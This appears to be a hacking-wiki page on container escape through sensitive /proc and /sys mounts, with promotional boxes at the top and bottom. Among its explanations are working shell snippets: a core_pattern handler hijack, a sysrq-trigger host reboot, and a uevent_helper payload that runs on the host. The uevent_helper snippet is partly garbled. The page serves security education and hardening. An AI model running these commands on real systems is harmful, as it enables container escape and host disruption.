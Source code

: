 # Sensitive Mounts

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

The exposure of `/proc` and `/sys` without proper namespace isolation introduces significant security risks, including attack surface enlargement and information disclosure. These directories contain sensitive files that, if misconfigured or accessed by an unauthorized user, can lead to container escape, host modification, or provide information aiding further attacks. For instance, incorrectly mounting `-v /proc:/host/proc` can bypass AppArmor protection due to its path-based nature, leaving `/host/proc` unprotected.

**You can find further details of each potential vuln in** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

This directory permits access to modify kernel variables, usually via `sysctl(2)`, and contains several subdirectories of concern:

#### **`/proc/sys/kernel/core_pattern`**

* Described in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Allows defining a program to execute on core-file generation with the first 128 bytes as arguments. This can lead to code execution if the file begins with a pipe `|`.
*   **Testing and Exploitation Example**:

    ```bash
    [ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
    cd /proc/sys/kernel
    echo "|$overlay/shell.sh" > core_pattern # Set custom handler
    sleep 5 && ./crash & # Trigger handler
    ```

#### **`/proc/sys/kernel/modprobe`**

* Detailed in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contains the path to the kernel module loader, invoked for loading kernel modules.
*   **Checking Access Example**:

    ```bash
    ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
    ```

#### **`/proc/sys/vm/panic_on_oom`**

* Referenced in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* A global flag that controls whether the kernel panics or invokes the OOM killer when an OOM condition occurs.

#### **`/proc/sys/fs`**

* As per [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contains options and information about the file system.
* Write access can enable various denial-of-service attacks against the host.

#### **`/proc/sys/fs/binfmt_misc`**

* Allows registering interpreters for non-native binary formats based on their magic number.
* Can lead to privilege escalation or root shell access if `/proc/sys/fs/binfmt_misc/register` is writable.
* Relevant exploit and explanation:
  * [Poor man's rootkit via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
  * In-depth tutorial: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

* May reveal the kernel configuration if `CONFIG_IKCONFIG_PROC` is enabled.
* Useful for attackers to identify vulnerabilities in the running kernel.

#### **`/proc/sysrq-trigger`**

* Allows invoking Sysrq commands, potentially causing immediate system reboots or other critical actions.
*   **Rebooting Host Example**:

    ```bash
    echo b > /proc/sysrq-trigger # Reboots the host
    ```

#### **`/proc/kmsg`**

* Exposes kernel ring buffer messages.
* Can aid in kernel exploits, address leaks, and provide sensitive system information.

#### **`/proc/kallsyms`**

* Lists kernel exported symbols and their addresses.
* Essential for kernel exploit development, especially for overcoming KASLR.
* Address information is restricted with `kptr_restrict` set to `1` or `2`.
* Details in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interfaces with the kernel memory device `/dev/mem`.
* Historically vulnerable to privilege escalation attacks.
* More on [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Represents the system's physical memory in ELF core format.
* Reading can leak host system and other containers' memory contents.
* Large file size can lead to reading issues or software crashes.
* Detailed usage in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Alternate interface for `/dev/kmem`, representing kernel virtual memory.
* Allows reading and writing, hence direct modification of kernel memory.

#### **`/proc/mem`**

* Alternate interface for `/dev/mem`, representing physical memory.
* Allows reading and writing, modification of all memory requires resolving virtual to physical addresses.

#### **`/proc/sched_debug`**

* Returns process scheduling information, bypassing PID namespace protections.
* Exposes process names, IDs, and cgroup identifiers.

#### **`/proc/[pid]/mountinfo`**

* Provides information about mount points in the process's mount namespace.
* Exposes the location of the container `rootfs` or image.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

* Used for handling kernel device `uevents`.
* Writing to `/sys/kernel/uevent_helper` can execute arbitrary scripts upon `uevent` triggers.
*   **Example for Exploitation**: %%%bash

    ## Creates a payload

    echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

    ## Finds host path from OverlayFS mount for container

    host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

    ## Sets uevent\_helper to malicious helper

    echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

    ## Triggers a uevent

    echo change > /sys/class/mem/null/uevent

    ## Reads the output

    cat /output %%%

#### **`/sys/class/thermal`**

* Controls temperature settings, potentially causing DoS attacks or physical damage.

#### **`/sys/kernel/vmcoreinfo`**

* Leaks kernel addresses, potentially compromising KASLR.

#### **`/sys/kernel/security`**

* Houses `securityfs` interface, allowing configuration of Linux Security Modules like AppArmor.
* Access might enable a container to disable its MAC system.

#### **`/sys/firmware/efi/vars` and `/sys/firmware/efi/efivars`**

* Exposes interfaces for interacting with EFI variables in NVRAM.
* Misconfiguration or exploitation can lead to bricked laptops or unbootable host machines.

#### **`/sys/kernel/debug`**

* `debugfs` offers a "no rules" debugging interface to the kernel.
* History of security issues due to its unrestricted nature.

### References

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
